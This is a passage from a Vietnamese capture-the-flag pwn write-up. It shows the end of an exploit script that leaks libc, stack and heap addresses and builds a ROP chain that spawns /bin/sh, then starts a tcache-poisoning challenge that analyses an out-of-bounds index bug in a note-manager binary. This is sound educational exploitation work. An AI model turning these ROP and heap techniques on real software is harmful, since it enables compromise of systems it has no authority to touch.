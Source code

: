 ```python=
info("Stack leak: "+hex(stack))
info("Stack gened: "+hex(stackgen))
info("Leak ptr: "+hex(leak))
info("Heap base: "+hex(heap_base))

#ROP for shell
ret = libc.address + 0x00000000000f99ab
prdi = libc.address + 0x000000000002a3e5
rop = flat(stack-0x10, 0, 0, stack-0x128, stack-0x10, ret, prdi, next(libc.search("/bin/sh\0")), sys)
buy(512, rop)
p.interactive()
```
---

### 2. Tcache Poisoning
##### IDA
- Ta có hàm `main()` được decompile:
![{1327E0EB-2FEE-4AF4-8CE6-3C0928BF6CF1}](https://hackmd.io/_uploads/BkKmyx6Jel.png)
> Chương trình là một trình cho phép ta thao tác và lưu trữ note với các lựa chọn gồm: 1. Tạo thêm note, 2. Chỉnh sửa note, 3. Xóa note, 4. Đọc nội dung của note, 5. Thoát chương trình. Đầu tiên ta sẽ được hỏi để nhập vào lựa chọn kèm với index, sau đó các hàm như `add_note(), edit_note(), remove_note(), read_note()` sẽ được gọi tùy thuộc vào lựa chọn với tham số là index.
- Hàm `add_note()`:
![{782528EA-1A1F-4CDA-99A3-5D7840575BFC}](https://hackmd.io/_uploads/HkLkfxTJgl.png)
> Hàm thực hiện kiểm tra index có hợp lệ hay không (<= 4) và sau đó yêu cầu ta nhập vào size của note và sau đó kiểm tra xem size có hợp lệ hay không (<= 0x410) và sau đó tiến hành thiết lập size vào phần tử thứ **idx** của mảng **notesize** và sau đó tiến hành cấp phát động chunk với kích thước từ người dùng và địa chỉ của chunk được lưu vào mảng **book[idx]**. Sau đó tiến hành set null tất cả dữ liệu trong note rồi tiến hành yêu cầu nội dung cho note mới tạo.
- Hàm `edit_note()`:
![{4AA413C3-296F-450F-B91A-4A62627CA2E1}](https://hackmd.io/_uploads/HyyM8e61eg.png)
> Hàm cũng tiến hành kiểm tra index và kiểm tra xem note đã được tạo chưa. Sau đó tiến hành syêu cầu dữ liệu từ người dùng với kích thước của note.
- Hàm `remove_note()`:
![{37F3BCF1-58B5-42CE-8287-436B72965FB5}](https://hackmd.io/_uploads/HJ7Wvg61el.png)
> Hàm kiểm tra index và kiểm tra xem note đã được tạo chưa. Sau đó tiến hành giải phóng toàn bộ note và nội dùng, đồng thời xóa địa chỉ được cấp phát động tương ứng với note trong danh sách **book**.
- Hàm `read_note()`:
 ![{7B928F5A-1244-4698-8069-1F6DC11C0E07}](https://hackmd.io/_uploads/Hkc1Kepyee.png)
> Hàm thực hiện kiểm tra index và kiểm tra xem note đã được tạo chưa, sau đó in dữ liệu từ note ra.
##### IDEA
- Như vậy không tồn tại bất kì một lỗ hỏng nào để ta có thể thực hiện một Double Free nhưng ta thấy rằng các hàm đều kiểm tra index chỉ bé hơn 4 mà không có ràng buộc lớn hơn 0 nên ta có thể dùng lỗ hỏng Out Of Bound. Với lỗ hỏng này ta có thể truy xuất đến index bé hơn 4 để leak dữ liệu. 
##### CHECKSEC
- Ta có checksec chung cho file binary là:
![{32A62731-2B1D-4907-B4F7-8D47FE75BB0E}](https://hackmd.io/_uploads/rkmJLFTygg.png)
> Partial RELRO: Bảng got có thể bị tấn công.
> No PIE: địa chỉ binary tĩnh có thể gọi các symbol của binary.
##### DEFINE FUNCTION
- Để thuận tiện hơn cho khai thác ta sẽ tiến hành thiết lập các hàm trong script với các tùy chọn nhập vào trong chương trình:
```python3=
def add(idx, size, data):
    slna(b'> ',1)
    slna(b'Index: ',idx)
    slna(b'Size: ',size)
```